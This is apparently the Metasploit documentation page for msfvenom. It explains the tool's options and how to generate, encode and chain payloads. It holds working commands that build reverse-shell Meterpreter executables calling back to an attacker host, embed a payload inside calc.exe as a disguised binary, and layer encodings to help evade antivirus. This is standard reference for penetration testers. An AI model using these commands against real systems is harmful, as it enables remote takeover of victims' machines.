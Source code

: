 Msfvenom is the combination of payload generation and encoding. It will replace msfpayload and msfencode on June 8th 2015.

To start using msfvenom, first please take a look at the options it supports:

```
Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload
    -f, --format        <format>     Output format (use --help-formats for a list)
        --help-formats               List available formats
    -e, --encoder       <encoder>    The encoder to use
    -a, --arch          <arch>       The architecture to use
        --platform      <platform>   The platform of the payload
        --help-platforms             List available platforms
    -s, --space         <length>     The maximum size of the resulting payload
        --encoder-space <length>     The maximum size of the encoded payload (defaults to the -s value)
    -b, --bad-chars     <list>       The list of characters to avoid example: '\x00\xff'
    -i, --iterations    <count>      The number of times to encode the payload
    -c, --add-code      <path>       Specify an additional win32 shellcode file to include
    -x, --template      <path>       Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --out           <path>       Save the payload
    -v, --var-name      <name>       Specify a custom variable name to use for certain output formats
        --smallest                   Generate the smallest possible payload
    -h, --help                       Show this message
```

# How to generate a payload

To generate a payload, there are two flags that you must supply (-p and -f):

* **The -p flag: Specifies what payload to generate**

To see what payloads are available from Framework, you can do:

```
./msfvenom -l payloads
```

The -p flag also supports "-" as a way to accept a custom payload:

```
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
```

* **The -f flag: Specifies the format of the payload**

Syntax example:

```
./msfvenom -p windows/meterpreter/bind_tcp -f exe
```

To see what formats are supported, you can do the following to find out:

```
./msfvenom --help-formats
```

Typically, this is probably how you will use msfvenom:

```
$ ./msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe
```


# How to encode a payload

By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
```

To find out what encoders you can use, you can use the -l flag:

```
./msfvenom -l encoders
```

You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus, but know that encoding isn't really meant to be used a real AV evasion solution:

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
```

# How to avoid bad characters

The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:

```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```

# How to supply a custom template

By default, msfvenom uses templates from the msf/data/templates directory. If you'd like to choose your own, you can use the -x flag like the following:

```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
```

Please note: If you'd like to create a x64 payload with a custom x64 custom template for Winodws, then instead of the exe format, you should use exe-only:

```
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```

The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.

# How to chain msfvenom output

The old ``msfpayload`` and ``msfencode`` utilities were often chained together in order layer on multiple encodings. This is possible using ``msfvenom`` as well:

```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
./msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```
